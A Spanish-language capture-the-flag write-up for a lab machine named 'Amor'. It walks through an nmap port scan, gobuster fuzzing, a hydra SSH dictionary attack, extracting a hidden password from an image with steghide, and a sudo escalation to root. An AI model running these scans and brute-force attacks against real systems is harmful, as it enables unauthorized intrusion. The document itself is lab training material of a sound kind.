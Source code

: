 # Amor
## Reconocimiento
En primer lugar comienzo por lanzar un escaneo de puertos para comenzar a estudiar la superficie de ataque y ver que posibles ángulos hay para vulnerar la máquina.
```shell
❯ nmap -p 0-65535 --open -T5 -A -sT -Pn -n 172.17.0.2 -oX nmapScan.xml && xsltproc nmapScan.xml -o nmapScan.html && open nmapScan.html &>/dev/null & disown
```

![1.png](./imgs/1.png)

El puerto 22 está sirviendo SSH y hay un servidor HTTP funcionando en el 80, a falta de más info voy a echar un ojo a la página

![2.png](./imgs/2.png)

Se trata de una página corporativa con registros o "noticias" de lo ocurrido en la empresa, hay un par de entradas interesantes como un aviso de contraseña débil (posible ataque diccionario) y otra que está firmada por una tal Carlota, del departamento de ciberseguridad.
El siguiente paso es lanzar un fuzzeo para identificar rutas interesantes o recursos que pueda aprovechar para explotar.
```shell
❯ gobuster dir -u 'http://172.17.0.2/' -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,js,txt,db,config,xml,py,bak,conf,java,jar,python
```
## Explotación
El fuzzeo no revela nada de interesante, así que se me ocurre probar a atacar SSH mediante diccionario con la información recavada en las entradas de la página.
Pruebo a hacer un ataque diccionario al usuario carlota con `hydra`.
```shell
❯ hydra -L juan.txt -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -s 22 -f ssh://172.17.0.2 -t 64
```

![3.png](./imgs/3.png)

Doy con la clave gracia al ataque diccionario y ya puedo entrar como carlota
## Post explotación
Lo primero es sanitizar la shell
```
export SHELL=bas
export TERM=xterm
export TERM=xterm-256color
source /etc/skel/.bashrc
bash
```

Nada más navegar un poco veo que hay un directorio con una imagen de vacaciones, tras comprobar que la máquina tiene python, levanto un servidor HTTP para servir el archivo y llevarlo a mi máquina
```shell
carlota@70e2decfb750:~/Desktop/fotos/vacaciones$ ls
imagen.jpg
carlota@70e2decfb750:~/Desktop/fotos/vacaciones$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
172.17.0.1 - - [17/Sep/2025 14:54:33] "GET /imagen.jpg HTTP/1.1" 200 -
```
Mientras tanto, en mi consola...
```shell
❯ curl -O http://172.17.0.2:8000/imagen.jpg
```
Se trata de una imagen de una pareja, aparentemente en una boda.

![4.png](./imgs/4.png)

Usando `steghide` para revelar el contenido oculto en la imagen saco un string que está encodeado en base64, así que lo decodifico y obtengo una contraseña con la que pivotar al usuario `oscar`.

 Una vez siendo oscar, al lanzar `sudo -l` y con una búsqueda rápida en GTFObins podemos escalar sin problemas a `root`.

![5.png](./imgs/5.png)